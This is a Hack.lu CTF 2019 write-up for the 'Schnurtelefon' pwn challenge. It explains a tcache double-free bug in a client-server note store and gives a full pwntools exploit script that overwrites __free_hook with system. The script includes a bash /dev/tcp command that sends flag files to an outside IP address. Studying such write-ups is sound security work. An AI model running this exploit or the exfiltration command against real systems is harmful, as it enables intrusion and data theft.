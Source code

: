 ```yaml
---
title: Schnurtelefon - Hack.lu CTF 2019
date: 2019-10-24 22:00:00
author: slashb4sh
author_url: https://twitter.com/slashb4sh
categories:
  - Pwn
tags:
  - Hack.lu
  - Write-up
---
```

**tl;dr** Linux client-server application heap exploitation

<!--more-->
**Challenge points**: 434
**No. of solves**: 11
**Solved by**: [slashb4sh](https://twitter.com/slashb4sh)

There are two binaries; server and client, the user interacts with server via the client. The server is a simple note storage system. The environment has glibc version 2.27 (easy tcache double free corruptions).
![picture](schnurtelefon.png)

1. store note
    + client reads the input from the user and sends it to the server
    + The server maintains an array of size 16, allocated pointer of fixed size 0x30 is stored in the first empty location. The client also maintains an array of flags for each location indicating whether busy (flag is non-zero) or free (flag is zero).
    ```c
      dest = malloc(0x20uLL);
      for ( j = &note_storage; *j && j < &end; ++j )
        ;
      *j = dest;
      memcpy(dest, a1 + 2, 0x20uLL);
      result = a2;
      a2[1] = dest;
    ```
    + if the for loop exits with the `j < &end` condition failing,that is, when the table is full, then the new pointer is stored in the 17th index.
    + this leads to the flag being set for the 17th index in the client.

2. delete note
    + client read the index to be freed and sends it to the server only if the flag for the corresponding index is busy.
    + the index is not validated when the flag is checked
    + for loop is buggy, letting us free the 17th index
    ```c
    for ( k = &note_storage; a1[1] != *k && k < &end; ++k )
    ;
    free(*k);
    result = strncpy(a2 + 16, "OK", 0x1FuLL);
    ```
    + the pointer is not nulled out in the table leading to potential UAF/double free

3. get note
    + if the flag is busy then index is send to server to get the data stored in the note.
    + same buggy for loop is used, letting us read from the 17th index

4. change name
    + This functionality gives us the primitives required to exploit the challenge
    + the name string is stored right below the flag array in the client.
    + this means that the 17th index is the first 8 bytes of name
    + so by changing the name we can modify the status of the 17th pointer in the server binary
    + this gives us a `double free` primitive


First we allocate 17 chunks to fill the table and overflow the table by one.
Getting a heap leak is straight forward
+ free the 17 chunk, the flag will now be clear
+ use the `change name` functionality to set the flag
+ free the 17 chunk again
+ set the flag again, and view it to get heap leak

Now that we have heap leak we can corrupt fd of free tcache chunk by using the double free.

To get the libc leak
+ we corrupt the fd with the address to a forged chunk of size 0x110
+ the fake chunk wil be serviced by malloc in a couple of allocations
+ free the fake chunk 8 times, this inserts the chunk into the unsorted bin
+ now view the chunk to get libc leak

Now we perform one more double free and overwrite the fd with `__free_hook`. Then we overwrite it with the address to `system`. The next free will call system.

We are exploiting the server binary. This means that passing "/bin/sh" as the argument to `system` will not get you shell as only the client's stdin and stdout is redirected to us. So we need to spawn a reverse shell.
Command I used : `bash -c 'cat f* >& /dev/tcp/54.93.105.54/7'`. We can only write 0x20 bytes at a time, so the command has to be written in two adjacent chunks. I used overlapping chunks to write the command without any null bytes in between.

```python
from pwn import *

s=process(["./client","1"])
#s=remote("schnurtelefon.forfuture.fluxfingers.net", 1337)
libc = ELF("./libc-2.27.so")

name = "a"*0x10
s.recvuntil("What is your name?")
s.sendline(name)

def add(data):
    s.sendlineafter("5: exit", str(1))
    s.sendafter("what do you want to store?", str(data))

def show(idx):
    s.sendlineafter("5: exit", str(3))
    s.sendlineafter("which note do you want to retrieve?", str(idx))

def free(idx):
    s.sendlineafter("5: exit", str(2))
    s.sendlineafter("which note do you want to delete?", str(idx))

def chgname(name):
    s.sendlineafter("5: exit", str(4))
    s.recvuntil("what's your name?")
    s.sendline(name)

# add chunks to overflow the table by one
add(p64(0) + p64(0x111) + p64(0)) # create a fake chunk which will be needed later for libc leak
for i in range(16):
    add("asd")

log.info("----------loop 1 DONE --------------");
free(17)
chgname(p64(0xdeadbeef)) # mark the idx in client
free(17)
chgname(p64(0xdeadbeef)) # mark the idx in client
show(17)
s.recvline()
heap = u64(s.recv(8))-0x5f0
log.info("Heap = " + hex(heap))
#gdb.attach(s,'b*0x00555555555733')

# corrupt fd to get arbitary allocation
target = heap+0x300 # target with forged size of 0x110 needed for libc leak
free(17)
add(p64(target))
chgname(p64(0))
add("aaa")
chgname(p64(0))
add(p64(0x1337))

# free chunk with overwritten size
free(17)

# free the chunk 7 more times to insert it into the unsorted bin
for i in range(7):
    chgname(p64(0x61))
    free(17)

log.info("----------loop 2 DONE --------------");

# view the unsorted bin chunk to get leak
chgname(p64(0xdeadbeef))
show(17)
s.recvline()
base = u64(s.recv(8))-0x3ebca0
log.info("libc = " + hex(base))
free_hook = base + libc.symbols['__free_hook']
system = base + libc.symbols['system']

# write reverse shell payload
add("f"*0x10 + "3.105.54/7'" + "\x00")
free(0)
add("bash -c 'cat f* >& /dev/tcp/54.9")
chgname(p64(0))

# double free
add(p64(0x1337))
free(17)
chgname(p64(0xdeadbeef))
free(17)

# corrupt fd to get write to free_hook
add(p64(free_hook))
add("c"*0x18)
chgname(p64(0))
add(p64(system))
free(0)

s.interactive()
```
